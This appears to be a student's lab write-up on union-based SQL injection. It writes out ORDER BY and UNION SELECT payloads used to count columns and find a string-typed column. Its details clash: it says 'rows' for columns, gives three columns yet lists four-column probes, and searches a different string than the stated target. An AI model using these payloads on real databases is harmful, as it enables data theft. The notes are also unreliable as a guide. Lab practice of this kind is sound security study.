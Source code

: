 Make the database retrieve the string: 'EUOXzb'
1. The first step in this lab is to find out the number of columns you can do this one of two ways:
		a. when solving for union based sql injection find number of rows by:
		' ORDER BY 1--
		b. ' UNION SELECT NULL, NULL--
By doing this I found that there is a total of 3 rows.
![[Pasted image 20211201102036.png]]

Now I realized that I have to find a column with a useful data type in a sql injection. 
So to do this I have submitted string data on union select payloads that place a string value into each column.
If the data type isn't compatible the db should return an error or exception

' UNION SELECT 'a',NULL,NULL,NULL--  
' UNION SELECT NULL,'a',NULL,NULL--  
' UNION SELECT NULL,NULL,'a',NULL--  
' UNION SELECT NULL,NULL,NULL,'a'--

I used this query to determine that the expected input is a string:
' UNION SELECT NULL,'a',NULL-- 

I then searched for the required string using:
' UNION SELECT NULL,'VqGnBB',NULL-- 

and received a successful result.

